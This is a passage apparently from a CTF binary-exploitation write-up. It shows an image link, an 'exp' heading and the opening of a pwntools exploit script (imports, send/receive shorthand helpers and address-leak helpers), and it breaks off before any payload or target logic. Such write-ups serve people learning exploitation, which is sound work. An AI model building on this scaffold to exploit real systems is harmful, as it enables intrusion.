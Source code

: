 [![](assets/1701612371-0e8cb783f92bc600ac2900a4a16772a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152138-eaeb7fcc-17df-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
```